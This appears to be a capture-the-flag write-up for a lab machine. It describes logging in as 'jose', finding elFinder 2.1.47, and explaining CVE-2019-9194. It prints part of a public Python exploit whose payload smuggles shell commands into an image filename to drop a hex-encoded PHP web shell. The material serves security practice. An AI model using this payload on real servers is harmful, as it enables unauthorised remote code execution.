 The password for the username `jose` has been successfully obtained. Let’s proceed to log in as `jose`.

![Desktop View](/add-files-subdom.webp){: width="1200" height="450" }


```
10.10.158.110   lookup.thm  files.lookup.thm
```
{: file="/etc/hosts"}

![Desktop View](/login-jose-files.webp){: width="1200" height="450" }

Great! Let’s move forward and explore what’s available under the files.lookup.thm subdomain.

### **Enumeration of the jose Account**

After enumerating the account, no useful files or information were discovered. However, we identified that the site is utilizing elFinder, which may present potential vulnerabilities to exploit.

![Desktop View](/elfinder-version.webp){: width="1200" height="450" }

After conducting some research on elFinder 2.1.47, we identified a critical vulnerability: **CVE-2019-9194**.

The vulnerability arises from how elFinder allows users to upload images and perform operations like resizing or rotating them. Specifically, the application uses the exiftran program for image rotation, but the vulnerability lies in how **elFinder** improperly handles the execution of this program. This flaw enables an attacker to inject arbitrary commands into the system, potentially leading to remote code execution.

### **Analysis of the Source Code for CVE-2019-9194**


```python
#!/usr/bin/python

'''
# Exploit Title: elFinder <= 2.1.47 - Command Injection vulnerability in the PHP connector.
# Date: 26/02/2019
# Exploit Author: @q3rv0
# Vulnerability reported by: Thomas Chauchefoin
# Google Dork: intitle:"elFinder 2.1.x"
# Vendor Homepage: https://studio-42.github.io/elFinder/
# Software Link: https://github.com/Studio-42/elFinder/archive/2.1.47.tar.gz
# Version: <= 2.1.47
# Tested on: Linux 64bit + Python2.7
# PoC: https://www.secsignal.org/news/cve-2019-9194-triggering-and-exploiting-a-1-day-vulnerability/
# CVE: CVE-2019-9194

# Usage: python exploit.py [URL]

'''

import requests

import json

import sys


payload = 'SecSignal.jpg;echo 3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a | xxd -r -p > SecSignal.php;echo SecSignal.jpg'


def usage():
```